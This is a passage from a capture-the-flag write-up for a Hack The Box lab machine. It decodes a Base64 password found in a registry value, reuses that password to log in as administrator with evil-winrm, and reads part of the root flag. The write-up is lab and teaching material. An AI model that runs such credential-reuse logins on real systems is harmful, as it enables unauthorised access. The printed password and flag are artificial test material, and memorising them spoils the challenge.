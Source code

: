 We see the password "cascadeLegacyPwd: YmFDVDNyMWFOMDBkbGVz". The password is in Base64. Decoding the password

```css
echo "YmFDVDNyMWFOMDBkbGVz" | base64 -d
baCT3r1aN00dles
```

In the note, it was said, Admin password is same as TempAdmin password. Lets login as administrator using TempAdmin Base64 decoded password

```bash
evil-winrm -i 10.10.10.182 -u administrator -p baCT3r1aN00dles

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..\Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/30/2020   5:39 AM             34 root.txt
-a----        3/25/2020  11:17 AM           1031 WinDirStat.lnk
```

Reading the first 16 character of the password.

```bash
*Evil-WinRM* PS C:\Users\Administrator\Desktop> $flag = Get-Content root.txt -Raw
*Evil-WinRM* PS C:\Users\Administrator\Desktop> $flag.substring(0, 16)
e14eb67bbc4a105b
```



## Website referred

| Description                    | WebSite                                                      |
| ------------------------------ | ------------------------------------------------------------ |
| SQLite Online                  | https://sqliteonline.com/                                    |
| Cracking VNC Password          | https://github.com/jeroennijhof/vncpwd                       |
| AES Decryption                 | https://www.devglan.com/online-tools/aes-encryption-decryption |
| AD Recycle Bin Object Recovery | https://www.poweradmin.com/blog/restoring-deleted-objects-from-active-directory-using-ad-recycle-bin/ |

